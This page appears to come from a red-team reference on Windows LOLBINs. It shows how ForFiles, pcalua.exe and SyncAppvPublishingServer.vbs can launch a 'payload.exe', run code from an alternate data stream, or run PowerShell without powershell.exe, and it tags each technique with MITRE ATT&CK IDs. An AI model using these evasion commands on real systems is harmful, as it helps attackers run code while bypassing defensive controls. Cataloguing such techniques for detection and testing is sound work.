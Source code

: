 ```yaml
---
description: LOLBINs that can be used to execute Windows executables.
---
```


# Executables - LOLBIN Execution

### ForFiles

Privileges required: User   
OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10  
Mitre:[T1218](https://attack.mitre.org/wiki/Technique/T1218)

Executes payload.exe since there is a match for notepad.exe in the c:\windows\System32 folder.

```text
forfiles /p c:\windows\system32 /m notepad.exe /c C:\Tools\payload.exe
/p - path to search
/m - search mask
/c - command to run
```

Findfiles can also be used to execute ADS.  
Mitre: [T1096](https://attack.mitre.org/techniques/T1096/)

```text
forfiles /p c:\windows\system32 /m notepad.exe /c "C:\Tools\notpayload.exe:payload.exe"
```

### Program Compatibility Assistant

Privileges required: User   
OS: Windows 7, Windows 8, Windows 8.1, Windows 10  
Mitre: [T1202](https://attack.mitre.org/techniques/T1202/)  
  
Used for running programs with incompatabilities with the installed version of Windows. Can be used to run a binary in a new process tree. 

```text
pcalua.exe -a C:\Tools\payload.exe
```

### SyncAppvPublishingServer

Privileges required: User   
OS: Windows 10  
Mitre: [T1218](https://attack.mitre.org/techniques/T1218/)

The SyncAppvPublishingServer initiates the Microsoft application virtualization \(App-V\) publishing refresh operation. However it can be used as a non-directly method to execute commands for evasion. In the example below the execution occurs from PowerShell and the “Start-Process” cmdlet is used to run the executable.

```text
SyncAppvPublishingServer.vbs "n; Start-Process C:\Tools\payload.exe"
```

This technicque can be used to run any powershell commands without using powershell.exe.

```text
SyncAppvPublishingServer.vbs "n; <Powershell command>"
```

 

